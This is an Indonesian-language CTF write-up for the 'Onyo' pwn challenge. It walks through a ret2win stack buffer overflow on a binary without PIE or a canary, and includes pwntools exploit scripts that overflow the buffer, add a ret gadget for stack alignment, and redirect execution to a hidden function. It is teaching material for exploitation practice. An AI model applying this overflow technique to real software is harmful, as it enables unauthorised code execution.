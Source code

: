 # Onyo - pwn


## Description

Hello frend!
Can you read flag.txt?

nc challs.ctf.cafe 8888

Author : Zerotistic

# Exploit

Diberikan sebuah ELF 64-bit, yang didalam hint sudah dijelaskan bahwa challenge kali ini bertipe **ret2win**, berikut rincian keamanannya dalam checksec

![](https://i.imgur.com/kgdKGqZ.png)

**PIE Disable & No Canary** sip, coba kita jalankan program tersebut

![](https://i.imgur.com/vGEmIGr.png)

Kita disuruh mengirimkan input, saat kita selesai mengirimkan input tersebut, program akan memberi tahu kita bahwa ada fungsi **tersembunyi** yang kalau dipanggil akan ada sesuatu yang **wah** akan terjadi, dan fungsi tersebut bernama **please_call_me**, hmm....

Langsung aja kita disassemble fungsi main untuk mengetahui jumlah buffer yang diperlukan untuk **ret2win** karena kita ngga dikasih source codenya

![](https://i.imgur.com/gjIvswK.png)

Dari **main<+18>:	lea    rax,[rbp-0x4]** kita tau kalo buffernya disini **0x4** atau kalo di decimal yaitu **4** byte. Kalo udah dapet buffer tinggal kita cari fungsi yang namanya **please_call_me**

![](https://i.imgur.com/xEJM7RJ.png)

Dapetlah addressnya kita, tinggal craft payload terus tes ke remote aja.

```python
from pwn import *
from sys import *

p = process("./chall")
elf = context.binary = ELF("./chall", checksec=False)

cmd = """
b * main+30
"""

if(argv[1] == "gdb"):
	gdb.attach(p, cmd)
elif(argv[1] == "remote"):
	p = remote("challs.ctf.cafe",8888)


payload = cyclic(12)
payload += p64(elf.sym.please_call_me)

p.sendline(payload)
p.interactive()
```

Loh loh bang, katanya buffernya **4** byte, kok malah jadi  **12**??? gimana sih....
Jadi disini buffer emang **4** byte tapi kita perlu **8** byte lagi buat ngisi **RBP/Base Pointer**nya

Jadi kurang lebih memory layoutnya seperti ini
![](https://i.imgur.com/ZIyzdYi.png)


Kalo masih bingung bisa cek tutorial [disini](https://youtu.be/Oyw_i8L3t8c)

Oke lanjut, karena payload udah kita bikin, langsung aja tes ke remote

![](https://i.imgur.com/bH1LDv2.png)

Lah kok gabisa dapet shell???? Terus gimana??? 
Jadi hal kayak gini disebabin oleh [stack alignment](https://stackoverflow.com/questions/64729055/what-does-aligning-the-stack-mean-in-assembly)

Challenge ini juga mirip sama challenge COMPFEST14 2022 **Smart Identifier**, writeup punya ku bisa dilihat [disini](/COMPFESTCTF2022/Binary%20Exploitation/Smart%20Identifier/README.md)

Untuk mengatasinya, kita cukup tambahin aja return address sebelum address **please_call_me** dipanggil, nyari address tersebut bisa pake **ROPgadget**
![](https://i.imgur.com/X0tvoo3.png)

Tinggal craft lagi payloadnya terus tes ke server dan dapet deh flagnya.

```python
from pwn import *
from sys import *

p = process("./chall")
elf = context.binary = ELF("./chall", checksec=False)

cmd = """
b * main+30
"""

if(argv[1] == "gdb"):
	gdb.attach(p, cmd)
elif(argv[1] == "remote"):
	p = remote("challs.ctf.cafe",8888)


payload = cyclic(12)
payload += p64(0x000000000040101a) # return address
payload += p64(elf.sym.please_call_me)

p.sendline(payload)
p.interactive()
```

![](https://i.imgur.com/BZWjuyD.png)

**Flag : RUSH{D1d_y0u_s33_TH4t_M0m}**







